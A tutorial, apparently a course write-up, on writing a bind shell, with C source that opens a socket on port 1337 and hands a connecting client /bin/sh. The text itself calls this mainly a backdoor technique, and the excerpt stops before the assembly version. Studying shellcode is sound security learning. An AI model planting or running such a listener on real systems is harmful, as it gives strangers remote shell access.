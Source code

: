 
# Creating a bind shell in x86 Assembly 

**What is a bind shell?**

A Bind shell is simply a program that listens for incoming connections. When a connection is made, a local shell is redirected to the newly created connection, thereby giving access to the local machine. Bind shells are usually created for backdoor access, although they could also be used for legitimate purposes, e.g. system administration.


## ok, nuff said, let's boogie

Our program will follow these steps:
1. Create a socket
2. Bind the socket
3. Listen for connections
4. Accept new connections
5. Execute shell

Before I solved this assignment, I wrote a version in C (with the help of my old university books), see below:

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main(int argc, char **argv) {

    int listenfd, connfd;
    socklen_t len;
    struct sockaddr_in serveraddr, cliaddr;

    // Create a listen file descriptor
    listenfd = socket(AF_INET, SOCK_STREAM, 0);

    // Configure our server
    serveraddr.sin_family = AF_INET;
    serveraddr.sin_addr.s_addr = htonl(INADDR_ANY);
    serveraddr.sin_port = htons(1337);

    // Bind the configured socket to our listendfd file descriptor
    bind(listenfd, (struct sockaddr*) &serveraddr, sizeof(serveraddr));

    // Listen on port 1337 on any address, allow a backlog of 2 connections
    listen(listenfd, 2);

    // Block until connection is made
    connfd = accept(listenfd, NULL, NULL);

    // Point the file descriptors STDIN,STDOUT,STDERR
    // to the new file descriptor created for the new connection
    dup2(connfd, 0);
    dup2(connfd, 1);
    dup2(connfd, 2);

    // Execute local program /bin/sh
    execv("/bin/sh", NULL, NULL);

    // Close file descriptors
    close(connfd);
    close(listenfd);

```
